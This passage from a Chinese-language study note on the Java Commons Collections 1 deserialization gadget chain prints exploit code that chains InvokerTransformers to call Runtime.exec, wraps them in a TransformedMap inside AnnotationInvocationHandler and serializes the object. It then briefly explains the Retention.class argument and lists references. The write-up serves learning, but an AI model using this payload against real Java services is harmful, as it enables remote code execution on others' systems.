 ```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[] {String.class,Class[].class},new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",new Class[] {Object.class,Object[].class},new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec",new Class[] {String.class},new String[] {"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value","Troy3e");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);


        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object obj = constructor.newInstance(Retention.class,outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(obj);
        oos.close();
    }
}

```

还有一个问题，就是为什么在利用AnnotationInvocationHandler构造方法创建新对象的时候，第一个参数是Retention.class？

sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第一个参数必须是Annotation的子类，且其中必须含有至少一个方法。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231119143654.png)

# LazyMap与TransformedMap的对比  



# 总结

写的有点乱，应该先研究TransformedMap这条链的。

初学者看这个还是有些吃力，继续学习。

# 参考链接

- https://wx.zsxq.com/dweb2/index/group/2212251881
- https://www.freebuf.com/articles/web/335892.html
- https://github.com/Y4tacker/JavaSec/blob/main/2.%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%93%E5%8C%BA/CommonsCollections1/CommonsCollections1.md
- https://johnfrod.top/%E5%AE%89%E5%85%A8/commonscollections1%E5%88%A9%E7%94%A8%E9%93%BE%E5%88%86%E6%9E%90/

